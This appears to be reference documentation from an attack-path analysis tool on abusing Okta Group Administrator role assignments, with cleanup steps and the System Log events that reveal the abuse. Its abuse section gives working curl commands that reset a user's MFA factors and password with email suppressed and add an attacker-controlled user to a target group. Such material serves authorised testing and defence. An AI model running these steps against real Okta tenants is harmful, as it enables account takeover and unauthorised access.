

## General Information

The traversable Okta_GroupAdmin edges represent Group Administrator (also known as User Administrator) role assignments. Group Administrators can manage users and groups within their assigned scope.



Target group memberships are flattened when the assignment is evaluated.

## Abuse Info

An attacker who controls the source principal can manage users and groups in the destination scope through the built-in Group Administrator (`USER_ADMIN`) role. When the destination is a user, this can usually be abused to take over or disrupt that user through password, authenticator, lifecycle, or profile actions. When the destination is a group, this can be abused by adding an attacker-controlled user to the group and inheriting any group-based app assignments, downstream provisioning, policy targeting, or SaaS roles.

For a user source, sign in to Okta as that user. For a group source, compromise any member of the source group. For an application source, authenticate as the service app or client and use its management API access.

Using the Admin Console against a destination user:

1. Authenticate as the source user, as a member of the source group, or as the source service application.
2. Open **Directory** > **People** and select the destination user.
3. Reset the user's password or recovery flow where permitted.
4. Reset the user's authenticators if MFA would block sign-in.
5. Sign in as the destination user with the reset credential and enroll attacker-controlled authenticators when prompted.

Using the Admin Console against a destination group:

1. Open **Directory** > **Groups** and select the destination group.
2. Add an attacker-controlled Okta user to the group.
3. Refresh the attacker's Okta session or start a new SSO flow.
4. Launch applications or access downstream systems granted through the group.

Using the Okta API:

1. Set the Okta org URL, a token for the source principal, and the relevant destination IDs.

    ```bash
    export OKTA_ORG="https://contoso.okta.com"
    export OKTA_API_TOKEN="REDACTED"
    export TARGET_USER_ID="00u..."
    export TARGET_GROUP_ID="00g..."
    export CONTROLLED_USER_ID="00u..."
    ```

2. For a destination user, reset all factors and start a password reset or temporary-password flow.

    ```bash
    curl -i -sS -X POST \
      -H "Authorization: SSWS $OKTA_API_TOKEN" \
      -H "Accept: application/json" \
      "$OKTA_ORG/api/v1/users/$TARGET_USER_ID/lifecycle/reset_factors"

    curl -sS -X POST \
      -H "Authorization: SSWS $OKTA_API_TOKEN" \
      -H "Accept: application/json" \
      "$OKTA_ORG/api/v1/users/$TARGET_USER_ID/lifecycle/reset_password?sendEmail=false&revokeSessions=true"
    ```

3. For a destination group, confirm the group is Okta-managed and add the controlled user.

    ```bash
    curl -sS \
      -H "Authorization: SSWS $OKTA_API_TOKEN" \
      -H "Accept: application/json" \
      "$OKTA_ORG/api/v1/groups/$TARGET_GROUP_ID" \
      | jq '{id, type, name: .profile.name}'

    curl -i -sS -X PUT \
      -H "Authorization: SSWS $OKTA_API_TOKEN" \
      -H "Accept: application/json" \
      "$OKTA_ORG/api/v1/groups/$TARGET_GROUP_ID/users/$CONTROLLED_USER_ID"
    ```

4. Verify user takeover by completing sign-in as the destination user, or verify group abuse by listing members.

    ```bash
    curl -sS \
      -H "Authorization: SSWS $OKTA_API_TOKEN" \
      -H "Accept: application/json" \
      "$OKTA_ORG/api/v1/groups/$TARGET_GROUP_ID/users?limit=200" \
      | jq -r '.[] | select(.id == env.CONTROLLED_USER_ID) | [.id, .profile.login] | @tsv'
    ```

5. If the destination group is imported from a source directory or application, direct membership changes may need to be made in that source system instead of the Okta Groups API.

## Cleanup after Abuse

Cleanup reverses user or group changes made through Group Administrator privileges, including password and authenticator resets, profile edits, lifecycle changes, and temporary destination group membership.

Cleanup using Admin Console:

1. For user takeover, open **Directory** > **People**, select the destination user, remove attacker-enrolled authenticators, and start a legitimate password reset.
2. Restore any lifecycle or profile changes made to the user.
3. For group abuse, open **Directory** > **Groups**, select the destination group, and remove the attacker-controlled user.
4. Re-add legitimate users or restore group profile values if they were changed.
5. Clear sessions for any user whose credentials or authenticators were modified.

Cleanup using API:

1. Remove temporary group membership.

    ```bash
    curl -i -sS -X DELETE \
      -H "Authorization: SSWS $OKTA_API_TOKEN" \
      -H "Accept: application/json" \
      "$OKTA_ORG/api/v1/groups/$TARGET_GROUP_ID/users/$CONTROLLED_USER_ID"
    ```

2. Restore removed group members.

    ```bash
    curl -i -sS -X PUT \
      -H "Authorization: SSWS $OKTA_API_TOKEN" \
      -H "Accept: application/json" \
      "$OKTA_ORG/api/v1/groups/$TARGET_GROUP_ID/users/$LEGITIMATE_USER_ID"
    ```

3. Remove attacker-controlled factors from any user taken over through the edge.

    ```bash
    curl -i -sS -X DELETE \
      -H "Authorization: SSWS $OKTA_API_TOKEN" \
      -H "Accept: application/json" \
      "$OKTA_ORG/api/v1/users/$TARGET_USER_ID/factors/$FACTOR_ID"
    ```

4. Force a legitimate reset and revoke sessions for users whose password or authenticators were changed.

    ```bash
    curl -i -sS -X POST \
      -H "Authorization: SSWS $OKTA_API_TOKEN" \
      -H "Accept: application/json" \
      "$OKTA_ORG/api/v1/users/$TARGET_USER_ID/lifecycle/reset_password?sendEmail=true&revokeSessions=true"
    ```

5. Confirm the controlled user is no longer in the destination group and the destination user has only legitimate factors.

## Opsec Considerations

Password resets, authenticator resets, group membership changes, user lifecycle actions, and user or group profile changes are recorded in the Okta System Log. Relevant event types include `user.account.reset_password`, `user.account.expire_password`, `user.mfa.factor.reset_all`, `user.mfa.factor.activate`, `group.user_membership.add`, `group.user_membership.remove`, `user.lifecycle.activate`, `user.lifecycle.suspend`, and `group.profile.update`.

A Group Administrator acting outside their normal help desk or business-unit scope is often visible in audit review. Membership changes to groups with app assignments, group push mappings, or sign-on policy impact are especially high-signal.

## References

- [Okta Group administrators](https://help.okta.com/en-us/Content/Topics/Security/administrators-group-admin.htm)
- [Okta Groups API](https://developer.okta.com/docs/api/openapi/okta-management/management/tag/Group/)
- [Okta User Credentials API](https://developer.okta.com/docs/api/openapi/okta-management/management/tag/UserCred/)
- [Okta User Lifecycle API](https://developer.okta.com/docs/api/openapi/okta-management/management/tag/UserLifecycle/)
- [Okta User Factors API](https://developer.okta.com/docs/api/openapi/okta-management/management/tag/UserFactor/)
- [Okta System Log event types](https://developer.okta.com/docs/reference/api/event-types/)
- [Eli Guy: Attack Techniques in Okta - Part 2 - Okta RBAC Attacks](https://xmcyber.com/blog/okta-rbac-attacks/)
